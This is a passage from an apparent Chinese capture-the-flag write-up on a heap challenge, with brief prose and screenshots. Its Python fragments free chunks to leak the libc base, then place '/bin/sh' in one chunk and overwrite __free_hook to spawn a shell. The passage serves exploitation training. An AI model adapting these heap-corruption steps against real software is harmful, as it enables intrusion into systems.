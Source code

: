 [![](assets/1708654729-224b3e560adda85e8404803729ba0ee0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103914-66b446da-d062-1.png)  
然后就很简单了，打 tcachebin 就行

```bash
for i in range(9):
    add(i,0x88)

for i in range(8):
    delete(i)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)
```

[![](assets/1708654729-2c4c6750cc90c2e25f6e3187aed79ccc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103937-74676550-d062-1.png)

```bash
edit(8,'/bin/sh\x00')
edit(6,p64(free_hook))
```

[![](assets/1708654729-e83e2b00cd67428d4be3391c7ab859b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221103954-7e665e08-d062-1.png)
